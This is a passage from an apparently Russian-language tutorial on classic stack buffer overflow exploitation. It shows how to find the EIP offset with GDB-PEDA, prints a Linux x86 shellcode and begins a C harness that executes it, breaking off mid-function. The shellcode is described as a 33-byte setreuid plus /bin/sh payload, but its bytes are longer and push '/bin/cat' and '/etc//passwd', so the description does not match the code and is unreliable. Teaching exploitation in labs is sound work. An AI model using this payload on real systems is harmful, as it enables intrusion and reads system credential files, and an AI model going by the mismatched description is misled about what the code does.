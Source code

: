 В результате увидим такое приятное глазу окно ассистента PEDA (чистый GDB без «обвесов», в свою очередь, был бы очень не многословен), в котором сразу видно, какие значения приняли все важные для нас регистры. После чего, снова используя модуль pattern, рассчитаем смещение, как `pattern offset 0x6c414150`, передав значение EIP, которое имел регистр на момент ошибки сегментации.

[![gdb-peda-pattern-offset.png](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-pattern-offset.png)](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-pattern-offset.png)
{:.center-image}

Получили 132, что означает, что мы были правы в нашем предположении выше.

Другие реализации таких инструментов можно найти как в виде онлайн-сервисов ([Buffer Overflow EIP Offset String Generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)), так и в виде отдельных скриптов (самый известный из них, пожалуй, [входит в состав](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb) Metasploit).

Теперь у тебя есть информация о расположении адреса возврата. Что дальше?

Существует несколько вариантов расположения шелл-кода в пространстве стека, но сперва еще немного теории.

## Шелл-коды

В будущем эксплоите роль полезной нагрузки будет выполнять [шелл-код](https://ru.wikipedia.org/wiki/Шелл-код) — набор машинных инструкций, представленных в 16-ричном виде, позволяющий получить доступ к командному интерпретатору и/или выполнить иную последовательность действий, угодных нарушителю... То есть нам.

Шелл-коды можно:

* [написать](https://xakep.ru/2017/03/30/tiny-linux-x86-bind-shellcode/) самостоятельно;
* [найти](http://shell-storm.org/shellcode/) в сети;
* [сгенерировать](https://netsec.ws/?p=331) различным наступательным ПО.

Для нашего примера возьмем [этот](http://shell-storm.org/shellcode/files/shellcode-250.php) шелл-код размером в 33 байта для Linux x86, который устанавливает [действительный](https://en.wikipedia.org/wiki/User_identifier#Real_user_ID) и [эффективный](https://en.wikipedia.org/wiki/User_identifier#Effective_user_ID) идентификаторы пользователя для вызывающего процесса, равными нулю (root), и запускает шелл.

```
// setreuid(0,0) + execve("/bin/sh", ["/bin/sh", NULL])

"\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89"
"\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65"
"\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80"
```

Протестировать, что шелл-код и правда выполнится в твоей системе, можно с помощью простой программы на C.

```c
// Использование: gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o test_shellcode_v1 test_shellcode_v1.c && ./test_shellcode_v1

#include <stdio.h>
#include <string.h>

const unsigned char shellcode[] =
        "\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89"
        "\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65"
        "\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80";

int main(int argc, char* argv[]) {
        printf("Shellcode size: %d\n\n", strlen((const char*)shellcode));

        int* ret;
        ret = (int*)&ret + 2;
```

[//]: # (2019-09-20)